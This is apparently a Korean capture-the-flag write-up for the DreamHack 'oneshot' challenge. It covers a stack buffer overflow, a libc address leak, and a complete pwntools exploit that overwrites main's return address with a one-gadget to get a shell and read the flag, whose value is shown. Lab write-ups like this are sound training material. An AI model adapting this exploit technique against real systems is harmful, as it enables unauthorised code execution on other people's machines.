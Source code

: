 # [DreamHack] oneshot

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> 이 문제는 작동하고 있는 서비스(oneshot)의 바이너리와 소스코드가 주어집니다.
> 프로그램의 취약점을 찾고 셸을 획득한 후, “flag” 파일을 읽으세요.
> “flag” 파일의 내용을 워게임 사이트에 인증하면 점수를 획득할 수 있습니다.
> 플래그의 형식은 DH{…} 입니다.
>
> Release: [oneshot.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8548630/oneshot.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160260036-458c5635-305a-403c-bdff-e9e35aaeb9aa.png)

## Analysis

```c
int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

`printf("stdout: %p\n", stdout)`에서 `stdout`의 값을 leak해준다. 이를 이용하여 libc 주소를 구할 수 있다.

`read(0, msg, 46)`에서 BOF가 발생한다. `main()`의 return address를 oneshot gadget으로 덮으면 셸을 획득할 수 있다.

`check`가 canary와 비슷한 역할을 하는데, BOF로 인해 `check`가 0이 아닌 값이 되면 `exit(0)`을 호출한다. `check`의 위치를 알고 있으므로 이 부분은 0으로 덮어야 한다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/oneshot')
    stdout_offset = 0x3ec760
    oneshot_offset = 0x10a2fc
else:
    r = remote('host1.dreamhack.games', 9316)
    stdout_offset = 0x3c5620
    oneshot_offset = 0xf1147


# leak libc

r.recvuntil('stdout: 0x')
stdout = int(r.recvline()[:-1], 16)  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
oneshot = libc + oneshot_offset  # oneshot gadget


# overwrite return address of main() with oneshot gadget

payload = b'\x00' * 0x28
payload += p64(oneshot)[:6]

r.sendafter('MSG: ', payload)


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 9316: Done
[*] Switching to interactive mode
MSG:
$ cat flag
DH{a6e74f669acffd69602b76c81c0516b2}
```